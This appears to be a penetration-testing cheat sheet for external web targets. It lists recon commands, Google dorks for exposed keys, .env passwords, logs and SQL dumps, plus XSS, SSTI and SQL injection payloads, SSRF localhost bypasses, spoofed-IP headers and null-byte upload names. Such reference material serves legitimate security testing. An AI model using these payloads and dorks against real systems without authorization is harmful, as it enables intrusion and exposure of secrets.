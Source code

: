 # External Penetration Testing

## **Tools**

```sh
amass
nmap
gobuster
nikto
Nessus
Burp Suite
```

--- 

## `Passive discovery`

get js script

```bash
go get github.com/tomnomnom/waybackurls
waybackurls internet.org | grep "\.js" | uniq | sort
```

dork on domain

```bash
inurl:example.com intitle:"index of"
inurl:example.com intitle:"index of /" "*key.pem"
inurl:example.com ext:log
inurl:example.com intitle:"index of" ext:sql|xls|xml|json|csv
inurl:example.com "MYSQL_ROOT_PASSWORD:" ext:env OR ext:yml -git
```

get url in file

```bash
cat file | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*"*
in js file => curl http://host.xx/file.js | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*"*
```

---

## **Active discovery**

### Services

```bash
nmap -sS -sV -O --top-ports 1000 --script=banner,nse,http-head
```

### Subdomains

amass

```bash
amass enum -ip -brute -active -d <domain> 
amass viz -maltego -d <domain> -o mydir
```

check if subdomain exist

```bash
cat alive-subdomains.txt | parallel -j50 -q curl -w 'Status:%{http_code}\t Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk
```

### Vhosts

```bash
nmap --script http-vhosts -p 80,8080,443 <target>
Burp Intruder (Host header)
```

### Urls

```bash
./dirsearch.py -u <target> -e php,html,js,xml -x 500,403
wfuzz -c -z file,/root/wordlist.txt --hc 404 <target>/FUZZ
Burp Pro (Content Discovery)
```

Found asset and params

```bash
assetfinder example.com | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"; done
```

link finder

```bash
https://github.com/GerbenJavado/LinkFinder
 python linkfinder.py -i https://example.com -d -o cli
```

URL finder

```bash
wget -qO- https://stackoverflow.com/ | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u
```

Dir Listing dump

```bash
wget -r --no-parent target.com/dir
```

---

## ** Injections **

### SSTI

```bash
"<%= 7 * 7 %>"@example.com 
test+(${{7*7}})@example.com
```

### XSS

```bash
test+(<script>alert(0)</script>)@example.com
test@example(<script>alert(0)</script>).com
"<script>alert(0)</script>"@example.com
```

### SQLI

For http://site.com/?q=INJECT_HERE

```bash
/?q=1
/?q=1'
/?q=1"
/?q=[1]
/?q[]=1
/?q=1`
/?q=1\
/?q=1/*'*/
/?q=1/*!1111'*/
/?q=1'||'asd'||'   <== concat string
/?q=1' or '1'='1
/?q=1 or 1=1
/?q='or''='
```

---

## **Bypass WAF**


SSRF localhost

```bash
http://127.1/
http://0000::1:80/
http://[::]:80/
http://2130706433/
http://whitelisted@127.0.0.1
http://0x7f000001/
http://017700000001
http://0177.00.00.01
```

X-Header

```bash
Accept: application/json, text/javascript, */*; q=0.01 
Host : localhost
X-Originating-IP: IP
X-Forwarded-For: IP
X-Remote-IP: IP
X-Remote-Addr: IP
X-Client-IP: IP
X-Host: IP
X-Forwared-Host: IP
```

NullByte

```bash
file.jpg%00shell.php
shell.php%00file.jpg
shell.php%00.jpg
```

---


## `Burp Extenders`

Extension|Description
---|----
`Retire.js`|[find vulnerable JavaScript libraries](https://github.com/PortSwigger/retire-js)